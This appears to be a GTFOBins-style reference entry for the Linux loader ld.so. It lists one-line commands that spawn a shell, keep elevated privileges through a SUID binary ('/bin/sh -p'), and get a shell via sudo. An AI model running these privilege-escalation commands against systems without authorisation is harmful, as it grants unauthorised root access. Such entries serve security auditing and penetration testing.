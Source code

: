 description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```
functions:
  shell:
    - code: /lib/ld.so /bin/sh
  suid:
    - code: ./ld.so /bin/sh -p
  sudo:
    - code: sudo /lib/ld.so /bin/sh
---
